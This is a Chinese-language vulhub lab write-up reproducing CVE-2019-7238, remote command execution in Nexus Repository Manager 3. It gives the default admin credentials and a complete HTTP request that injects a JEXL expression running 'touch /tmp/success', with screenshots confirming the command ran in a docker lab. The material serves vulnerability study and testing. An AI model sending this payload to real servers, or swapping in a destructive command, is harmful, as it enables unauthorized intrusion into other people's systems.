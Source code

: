 

# Nexus Repository Manager 3 远程命令执行漏洞（CVE-2019-7238）

###### by ADummy

### 0x00利用路线

​			ysoserial生成payload--->上传给网站进行解析--->命令执行

### 0x01漏洞介绍

​			SNexus Repository Manager 3 是一款软件仓库，可以用来存储和分发Maven、NuGET等软件源仓库。其3.14.0及之前版本中，存在一处基于OrientDB自定义函数的任意JEXL表达式执行功能，而这处功能存在未授权访问漏洞，将可以导致任意命令执行漏洞。

### 0x02漏洞复现

​	等待一段时间环境才能成功启动，访问`http://your-ip:8081`即可看到Web页面。

使用账号密码`admin:admin123`登录后台，然后在maven-releases下随便上传一个jar包：

ps:此处只是为了保证仓库中至少有一个包存在



![Nexus_Repository_Manager3_RCE_11](https://github.com/ADummmy/vulhub_Writeup/blob/main/src/Nexus_Repository_Manager3_RCE_11.jpg)



```
POST /service/extdirect HTTP/1.1
Host: localhost
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.14; rv:63.0) Gecko/20100101 Firefox/63.0
Accept: */*
Content-Type: application/json
X-Requested-With: XMLHttpRequest
Content-Length: 368
Connection: close

{"action":"coreui_Component","method":"previewAssets","data":[{"page":1,"start":0,"limit":50,"sort":[{"property":"name","direction":"ASC"}],"filter":
[{"property":"repositoryName","value":"*"},{"property":"expression","value":"233.class.forName('java.lang.Runtime').getRuntime().exec('touch /tmp/success')"},{"property":"type","value":"jexl"}]}],"type":"rpc","tid":8}
```



![Nexus_Repository_Manager3_RCE_11](https://github.com/ADummmy/vulhub_Writeup/blob/main/src/Nexus_Repository_Manager3_RCE_12.jpg)

进入docker 发现   touch  /tmp/success被执行

![Nexus_Repository_Manager3_RCE_11](https://github.com/ADummmy/vulhub_Writeup/blob/main/src/Nexus_Repository_Manager3_RCE_13.jpg)

